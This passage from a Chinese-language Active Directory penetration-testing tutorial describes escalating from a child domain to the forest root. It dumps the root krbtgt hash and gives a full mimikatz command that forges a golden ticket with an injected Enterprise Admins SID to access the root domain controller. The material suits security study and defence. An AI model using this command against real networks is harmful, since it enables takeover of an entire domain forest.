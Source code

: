 如图所示，可以看到利用完成后即可远程连接林根域的域控制器：

![截图](6d55d552e2b4b838307bf3e6b95f0f58.png)

如图所示，导出林根域 krbtgt 用户的哈希。

![截图](54b294086838ed12266dfc210acc8a32.png)

#### (4) mimikatz 攻击

获得 inter-realm key 后，可以利用 mimikatz 执行如下命令进行攻击。

```
#生成高权限的黄金票据
kerberos::golden /user:administrator /domain:shanghai.xie.com /sids:S-1-5-21-1313979556-3624129433-4055459191-519 /sid:S-1-5-21-909331469-3570597106-3737937367 /krbtgt:0f81015ca4691b714e9db485568e5e6b /service:krbtgt /target:xie.com /ptt
```

如图所示，将黄金票据导入内存后，即可远程访问林根域的域控制器了。
